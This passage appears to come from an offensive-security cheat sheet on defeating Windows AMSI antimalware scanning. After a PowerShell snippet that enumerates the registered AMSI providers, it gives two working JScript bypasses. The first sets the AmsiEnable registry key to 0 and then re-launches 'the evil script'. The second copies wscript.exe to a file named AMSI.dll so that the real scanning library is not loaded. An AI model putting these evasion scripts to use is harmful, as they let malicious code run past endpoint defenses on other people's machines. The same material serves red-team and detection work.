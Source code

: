 List registered AMSI Providers (same as [AMSIProviders](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/AMSIProvidersCommand.cs)):

```powershell
$providers = Get-ChildItem "HKLM:\SOFTWARE\Microsoft\AMSI\Providers" -Name
foreach ($p in $providers) { Get-ItemProperty "HKLM:\SOFTWARE\Classes\CLSID\$p\InprocServer32" }
```




## Jscript



### AmsiEnable Registry Key

Set the `HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable` registry key to `0` and run the evil script:

{% code title="regkey.js" %}
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try {
	var AmsiEnable = sh.RegRead(key);
	if (AmsiEnable != 0) {
		throw new Error(1, '');
	}
} catch(e) {
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}" + WScript.ScriptFullName, 0, 1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}

<EVIL_SCRIPT_CONTENTS>
...
```
{% endcode %}



### Rename AMSI.dll

Copy `C:\Windows\System32\wscript.exe` binary to a different location and rename in to `AMSI.dll` in order to prevent loading the real `AMSI.dll`:

{% code title="rename.js" %}
```js
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try {
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll") == 0) {
		throw new Error(1, '');
	}
} catch(e) {
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName);
	WScript.Quit(1);
}
<EVIL_SCRIPT_CONTENTS>
...
```
{% endcode %}
